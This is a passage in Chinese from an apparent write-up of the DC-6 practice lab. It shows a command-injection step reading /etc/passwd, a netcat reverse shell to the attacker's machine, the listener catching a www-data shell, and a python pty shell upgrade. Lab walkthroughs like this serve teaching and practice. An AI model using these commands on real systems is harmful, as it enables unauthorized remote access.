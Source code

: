 <figure><img src="../../.gitbook/assets/image (70) (1).png" alt=""><figcaption></figcaption></figure>

我这里执行了一个cat /etc/passwd命令，没问题，接下来反弹shell，将要执行的命令改成下面这个

```
nc 192.168.23.129 8889 -e /bin/bash
```

nc监听到了

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 8889
listening on [any] 8889 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.149] 35656
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

我们获取到了一个shell，用python获取一个bash shell

```
python -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-6:/var/www/html/wp-admin$
```
